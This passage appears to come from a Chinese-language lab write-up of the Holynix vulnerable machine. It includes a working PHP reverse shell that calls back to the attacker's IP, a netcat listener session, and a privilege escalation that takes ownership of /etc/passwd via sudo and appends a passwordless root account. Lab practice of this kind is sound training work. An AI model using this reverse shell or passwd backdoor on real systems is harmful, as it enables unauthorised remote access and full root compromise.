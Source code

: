 ```
				exec("/var/apache2/htdocs/update_own");
        		} else {
				echo "Sorry, there was a problem uploading your file.
";
				echo "
[Back to upload page](http://192.168.218.192/index.php?page=upload.php)";
			}
		}
	} else { echo "

Home directory uploading disabled for user " .$logged_in_user. "
"; }
}
?>
```
发现它是使用的 xzf 解压的文件，那我们就使用 czf 参数压缩。` tar czf rev.php.tar.gz rev.php`
```
<?php
$ip = '192.168.218.148';  
$port = 4444;             
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', 
    array(0 => $sock, 1 => $sock, 2 => $sock), 
    $pipes);
?>
```

这里被卡了，我一直尝试使用该页面的文件包含去执行代码，但是包含只会包含出源码，卡了一会不知道怎么执行shell，看了别人的wp才知道可以在url上访问到文件。
开启kali监听，点击解压了的rev.php

<img width="1910" height="429" alt="Image" src="https://github.com/user-attachments/assets/b05912c5-b4cc-4232-86ab-249190a59774" />


```
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 4444
[sudo] kali 的密码：
listening on [any] 4444 ...
connect to [192.168.218.148] from (UNKNOWN) [192.168.218.192] 34769
/bin/sh: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
# 提权
拿到shell了，开始提权
```
User www-data may run the following commands on this host:
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /bin/chgrp
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /bin/mv
```
提权很简单了
```
www-data@holynix:/home/etenenbaum$ sudo chown etenenbaum /etc/passwd
sudo chown etenenbaum /etc/passwd
www-data@holynix:/home/etenenbaum$ ls -la /etc/passwd
ls -la /etc/passwd
-rw-r--r-- 1 etenenbaum root 1490 Nov  8  2010 /etc/passwd
```
这里改错所属者了，改成www-data
这样就可以直接编辑了
`echo "hacker::0:0::/root:/bin/bash" >> /etc/passwd`